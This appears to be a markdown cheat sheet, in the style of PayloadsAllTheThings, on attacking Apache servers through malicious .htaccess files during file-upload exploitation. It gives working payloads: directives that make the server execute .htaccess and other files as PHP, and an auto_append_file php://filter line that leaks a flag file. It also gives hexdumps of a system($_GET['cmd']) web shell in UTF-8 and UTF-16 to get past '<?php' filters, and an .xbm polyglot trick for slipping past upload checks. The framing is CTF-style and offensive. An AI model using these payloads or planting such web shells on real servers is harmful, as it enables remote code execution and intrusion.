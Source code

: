 
# Apache Configuration using .htaccess

`.htaccess` files are used to configure a web directory and its sub-directories.
_.htaccess files provide a way to make configuration changes on a per directory basis._
# .htaccess

If `AllowOverride` is set to `All` in the main configuration, then malicious `.htaccess` will be interpreted as legit configuration files.

**Directory index**

```bash
DirectoryIndex home.html
```

**Rewrite URLs** :
With the **mod_rewrite** module of the Apache HTTP Web server preinstalled on your Web Hosting plan, you can use this feature to redirect:

- All HTTP requests to a single file on your website.
- A portion of HTTP requests to a single file on your website.
- Your domain name to its www subdomain.
- Requests to a particular folder, without displaying the folder concerned.
- Website requests to HTTPS when a URL was opened in HTTP.

https://help.ovhcloud.com/csm/en-web-hosting-htaccess-url-rewriting?id=kb_article_view&sysparm_article=KB0052861

**Redirect error messages**
```bash
ErrorDocument Error_Code_Number Message_Or_Destination
```

**Authorize reading**
```.htaccess
<Files ".htaccess">
    Require all granted
</Files>
```

**Redirect requests**
```
Options +FollowSymLinks
RewriteEngine On
RewriteRule ^folder1.*$ https://mydomain.com/folder2/ [R=301,L]
```

**Redirect requests**
```
# Convert http://exemple.com/blabla/blabla to http://exemple.com/private/flag.txt/blabla/blabla
Redirect 301 / /private/flag.txt

# Convert http://exemple.com/blabla/blabla to http://google.com/private/flag.txt/blabla/blabla
Redirect 301 / http://google.com
```

**Interpreting as PHP**
```bash
# Load module
LoadModule php5_module        modules/mod_php55.so

# It means that all files with an extension .custom will execute php
AddType application/x-httpd-php .custom .html .htm
AddType application/x-httpd-php5 .htaccess

# Interpret the .htaccess file as php
AddType application/x-httpd-php .htaccess

# If running php as cgi
AddHandler application/x-httpd-php .htaccess 
```
***/!\\ DO NOT FORGOT TO CHANGE CONTENT-TYPE IN BURP***
```
Content-Type: application/x-httpd-php
```

**Some more PHP config**
```bash
php_value zend.multibyte 1      # Active specific encoding (you will see why after :D)
php_value zend.detect_unicode 1  # Detect if the file have unicode content
php_value display_errors 1        # Display php errors
```

**Bypass .htaccess by using unknown verb**
- Works only on very old versions
```bash
curl -X AAAA http://exemple.com/flag.txt
```

**Auto Append file**
```bash
php_value auto_append_file "php://filter/convert.base64-encode/resource=/private/flag.txt"
```

# Modules

You can test if a module is loading using the following condition
- If the .htaccess is readable, the module is present, otherwise module is not present
```bash
<IfModule mod_mime.c>
    <Files ~ "^\.ht">
        Require all granted
        Order allow,deny
        Allow from all
    </Files>
</IfModule>
```
**Modules :**
- `mod_rewrite.c` used to rewrite URLs
- `mod_mime.c` used to change the mime type of different file extension (e.g. interpret .html as php)
- `mod_alias.c` create directory and file aliases
- `mod_auth_basic.c` offers basic authentication

# Bypass filters

**PHP** supports several form of encoding. 
Default is UTF-8 but PHP understand UTF-16 as well.
- In UTF-8 chars are encoded on 1 byte
- In UTF-16 chars are encoded on 2 bytes
For example, it helps bypassing `<?php` filter

**UTF-8** payload
```php
00000000: 3c3f 7068 7020 7379 7374 656d 2824 5f47  <?php system($_G
00000010: 4554 5b27 636d 6427 5d29 3b20 6469 6528  ET['cmd']); die(
00000020: 293b 203f 3e0a                           ); ?>.
```
**UTF-16** payload (Big-endian to avoid some PHP bugs)
```php
00000000: 003c 003f 0070 0068 0070 0020 0073 0079  .<.?.p.h.p. .s.y
00000010: 0073 0074 0065 006d 0028 0024 005f 0047  .s.t.e.m.(.$._.G
00000020: 0045 0054 005b 0027 0063 006d 0064 0027  .E.T.[.'.c.m.d.'
00000030: 005d 0029 003b 0020 0064 0069 0065 0028  .].).;. .d.i.e.(
00000040: 0029 003b 0020 003f 003e 0a              .).;. .?.>.
```

# Polyglot

> _“In computing, a polyglot is a computer program or script written in a valid form of multiple programming languages, which performs the same operations or output independent of the programming language used to compile or interpret it.”_

Ref : [http://php.net/manual/en/function.exif-imagetype.php](http://php.net/manual/en/function.exif-imagetype.php)

`.xbm` format is interesting because 
- it is interpreted as an image
- the first two lines define height and width ans start with `#`
- So, headers will not disturb our `.htaccess`

**`.xbm` example**
```bash
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80, 0x00, 0x60 };
```




# Resources
- http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster
- https://github.com/wireghoul/htshells/blob/master/traversal/mod_hitlog.traversal.htaccess
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
- https://httpd.apache.org/docs/2.2/fr/howto/htaccess.html
- https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
- http://archive.justanotherhacker.com/2011/05/htaccess-based-attacks.html
- https://blog.qualys.com/vulnerabilities-threat-research/2015/10/22/unrestricted-file-upload-vulnerability
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
- https://corz.org/server/tricks/htaccess.php
- [https://httpd.apache.org/docs/2.4/en/howto/htaccess.html](https://httpd.apache.org/docs/2.4/en/howto/htaccess.html)